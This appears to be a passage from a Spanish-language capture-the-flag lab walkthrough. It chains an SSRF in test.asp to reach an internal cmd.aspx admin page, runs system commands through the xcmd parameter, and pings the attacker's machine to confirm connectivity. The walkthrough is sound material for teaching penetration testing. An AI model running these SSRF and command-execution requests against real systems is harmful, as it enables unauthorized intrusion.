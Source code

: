 ## Vulnerability Assessment {-}

### Analizamos la web interna por el puerto privado 80 {-}

Aqui se puede ver un pannel de administrador donde parece que podamos ejecutar commandos a nivel de systema. Si pinchamos el link
no nos va a dejar porque nos lleva a una url interna `127.0.0.1/cmd.aspx`. Pero si la introduccimos directamente en 

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx
```

functiona.

Si le lanzamos un whoami, nos redirige en una url un poco turbia. Analizando el codigo fuente vemos que la peticion es get con el
nombre xcmd.

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=whoami
```

### Controlamos si tenemos connectividad con la maquina de attackante {-}

1. Nos ponemos en escucha por trasa ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. en la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=ping 10.10.14.8
    ```

Como es una maquina windows, tenemos que recivir 4 pings y es el caso. Tenemos connectividad con la maquina victima.

